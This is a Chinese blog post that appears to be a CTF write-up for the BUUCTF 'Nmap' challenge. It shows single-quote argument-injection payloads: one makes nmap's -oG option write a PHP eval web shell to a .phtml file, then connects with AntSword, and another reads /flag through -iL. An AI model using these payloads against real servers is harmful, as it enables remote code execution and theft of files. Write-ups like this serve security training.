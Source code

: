 ```yaml
---
layout: post
title: '[网鼎杯 2020 朱雀组]Nmap'
subtitle: 'buuctf刷题'
date: 2021-08-27
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: 网络安全 buu刷题
---
```


### 考点

	nmap的一些用法

### 解题过程

> 1.打开题目

![](https://1024861435.github.io/assets/img/nmap1.png)

发现是nmap扫描，输入就namp语法就可以了

> 2.namp语法

		选项 解释
		-oN 标准保存
		-oX XML保存
		-oG Grep保存
		-oA 保存到所有格式
		-append-output 补充保存文件
		选项-oG
		将结果Grep保存。

> 3.构造payload

	' <?php @eval($_POST["hack"]);?> -oG hack.php '

回显hacker... 于是发现测试字符发现过滤了php

于是用短标签

	' <?= @eval($_POST["hack"]);?> -oG hack.phtml '

访问hack.phtml

![](https://1024861435.github.io/assets/img/nmap2.png)

发现有文件，蚁剑连接再根目录下发现flag文件

> 方法二

直接把/flag写到vege.txt
	
	127.0.0.1' -iL /flag -oN xxx.txt '

访问vege.txt

![](https://1024861435.github.io/assets/img/nmap3.png)



